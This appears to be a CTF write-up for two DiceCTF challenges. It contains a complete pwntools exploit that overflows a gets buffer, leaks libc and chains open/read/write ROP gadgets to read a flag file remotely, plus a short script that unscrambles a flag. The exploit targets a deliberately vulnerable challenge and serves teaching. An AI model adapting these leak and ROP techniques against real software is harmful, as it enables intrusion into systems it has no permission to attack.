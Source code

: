 ```yaml
---
title: DiceCTF 2023 and DiceCTF Quals 2024
category: WRITEUP, CTF, SECCOMP, RE, PWN
date: May 15th, 2024
description: Writeup of a few challenges from DiceCTF 2023.
---
```


## BOP
The vulnerability in this binary is very simple, a simple gets in main. There
are a few main things to note. 

1. We can only call open, read, and write syscalls due to seccomp being enabled
2. There is only a pop rdi gadget

#### Getting the Leak
To get a leak, we can do a ret2puts with our pop rdi gadget, and printf.
It works the exact same although it is more prone to a movaps stack alignment
error than puts.

We also weren't given a libc so we need to leak it from remote. We can 
do this by leaking multiple symbols and looking it up in the libc databasse.

#### ORW Rop Chain


```python
#!/usr/bin/python
from pwn import *

context.update(
        arch="amd64",
        endian="little",
        log_level="info",
        os="linux",
        terminal=["st"]
)

def start(binary):
    gs = '''
        init-pwndbg
        set context-sections stack regs disasm
        set show-compact-regs on
        set resolve-heap-via-heuristic on
        b *0x4012f9
    '''

    if args.GDB:
        return gdb.debug(binary, gdbscript=gs)
    elif args.REMOTE:
        return remote("mc.ax",30284)
    else:
        return process(binary)


def leak_libc(p,e,r,l):

    pad = b"A" * 40

    pop_rdi = p64(r.find_gadget(["pop rdi", "ret"])[0])
    ret = p64(u64(pop_rdi) + 1)
    printf_got = p64(e.got["printf"])
    printf_plt = p64(e.plt["printf"])
    main = p64(0x4012f9)

    got_funcs = [p64(e.got["printf"]), p64(e.got["gets"]), p64(e.got["setbuf"])]

    chain = ret + pop_rdi + got_funcs[0] + printf_plt
    chain += ret + main

    p.recvuntil(b"bop? ")
    p.sendline(pad + chain)
    leak = u64(p.recvuntil(b"Do").split(b"Do")[0] + b"\x00\x00")
    log.info(f"printf leak: {hex(leak)}")

    print(hex(l.sym["printf"]))
    libc_base = leak - l.sym["printf"]
    log.info(f"Leaked Libc Base: {hex(libc_base)}")
    return libc_base

def read_file(p,e,r,l,base):
    lr = ROP(l)

    pad = b"A" * 40

    main = p64(0x4012f9)
    writable_mem = p64(0x404100)
    pop_rdi = p64(r.find_gadget(["pop rdi", "ret"])[0])
    ret = p64(u64(pop_rdi) + 1)
    pop_rsi = p64(r.find_gadget(["pop rsi",  "pop r15", "ret"])[0])
    pop_rdx = p64(lr.find_gadget(["pop rdx", "pop rbx", "ret"])[0] + base)
    read = p64(l.sym["read"] + base)
    log.info(f"Pop rdi: {hex(u64(pop_rdi))}")
    log.info(f"Pop rsi: {hex(u64(pop_rsi))}")
    log.info(f"Pop rdx: {hex(u64(pop_rdx))}")
    log.info(f"read: {hex(u64(read))}")

    log.info(f"Reading in /srv/app/flag.txt")

    chain = pop_rdi + p64(0)
    chain += pop_rsi + writable_mem + p64(0)
    chain += pop_rdx + p64(18) + p64(0)
    chain += read + main
    chain += ret + main


    p.recvuntil(b"bop?")
    p.sendline(pad + chain)
    pause()
    p.sendline(b"flag.txt\x00")

def open_flag(p,e,r,l,base):
    lr = ROP(l)
    pad = b"A" * 40

    writable_mem = p64(0x404100)
    main = p64(0x4012f9)
    pop_rdi = p64(r.find_gadget(["pop rdi", "ret"])[0])
    ret = p64(u64(pop_rdi) + 1)
    pop_rsi = p64(r.find_gadget(["pop rsi",  "pop r15", "ret"])[0])
    syscall = p64(lr.find_gadget(["syscall", "ret"])[0] + base)
    pop_rax = p64(lr.find_gadget(["pop rax", "ret"])[0] + base)


    chain = pop_rdi + writable_mem
    chain += pop_rsi + p64(0x000) + p64(0)
    chain += pop_rax + p64(2)
    chain += syscall + ret + main

    log.info(f"Opening /srv/app/flag.txt")

    p.recvuntil(b"bop?")
    p.sendline(pad + chain)

def read_flag(p,e,r,l,base):
    lr = ROP(l)

    pad = b"A" * 40

    main = p64(0x4012f9)
    writable_mem = p64(0x404100)
    pop_rdi = p64(r.find_gadget(["pop rdi", "ret"])[0])
    ret = p64(u64(pop_rdi) + 1)
    pop_rsi = p64(r.find_gadget(["pop rsi",  "pop r15", "ret"])[0])
    pop_rdx = p64(lr.find_gadget(["pop rdx", "pop rbx", "ret"])[0] + base)
    printf = p64(e.plt["printf"])
    read = p64(l.sym["read"] + base)
    log.info(f"Pop rdi: {hex(u64(pop_rdi))}")
    log.info(f"Pop rsi: {hex(u64(pop_rsi))}")
    log.info(f"Pop rdx: {hex(u64(pop_rdx))}")
    log.info(f"read: {hex(u64(read))}")

    log.info(f"Reading in flag")

    chain = pop_rdi + p64(3)
    chain += pop_rsi + writable_mem + p64(0)
    chain += pop_rdx + p64(0x60) + p64(0)
    chain += read
    chain += pop_rdi + writable_mem
    chain += printf

    p.recvuntil(b"bop?")
    p.sendline(pad + chain)
    p.interactive()



if __name__=="__main__":
    file = './bop'

    p = start(file)
    e = context.binary = ELF(file)
    r = ROP(e)

    if args.REMOTE:
        libc = ELF("./libc.so.6")
    else:
        libc = e.libc

    base = leak_libc(p,e,r, libc)
    read_file(p,e,r,libc,base)
    open_flag(p,e,r,libc,base)
    read_flag(p,e,r,libc,base)


```



## Parallelism


### Static Analysis
When we take a look at the binary we can see that there is a string that is
64 characters long and contains the characters "d", "i", "c", "e", "{", "}". 
This can tell us that it is a flag scrambler.

### Patching the Binary
When we look at the binary, we can see that there is a function call that will
take in the scrambled input. We can patch this to print out the scrambled input
to determine the order of scrambling. If we patch it with puts it will print the
scrambled input. We can send a string of the alphabet and get the order

### Unscrambling the Flag
We can make a simple script that will reverse the scrambling on the encrypted flag
```
alp = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-+"
test = "51sZIpMhSrd7HBUgRmCQPy23vu6joc-LEXT9KzbaOxefAtY8l+kJ0GNw4WnqFiDV"
enc_flag = "m_ERpmfrNkekU4_4asI_Tra1e_4l_c4_GCDlryidS3{Ptsu9i}13Es4V73M4_ans"
order = []

for a in alp:
    order.append(test.index(a))
flag = ""
for o in order:
    flag += enc_flag[o]

print(order)
print(flag)

```

Running the script gets us the flag
```
python solve_par.py
[39, 38, 29, 10, 42, 43, 15, 7, 61, 27, 50, 48, 17, 58, 28, 5, 59, 9, 2, 45, 25, 24, 55, 41, 21, 37, 44, 13, 18, 62, 32, 60, 53, 12, 4, 51, 36, 31, 6, 54, 40, 20, 19, 16, 8, 34, 14, 63, 57, 33, 46, 3, 52, 1, 22, 23, 56, 0, 26, 11, 47, 35, 30, 49]
dice{P4ral1isM_m4kEs_eV3ryt4InG_sUp3r_f4ST_aND_s3CuRE_a17m4k9l4}
```



## 
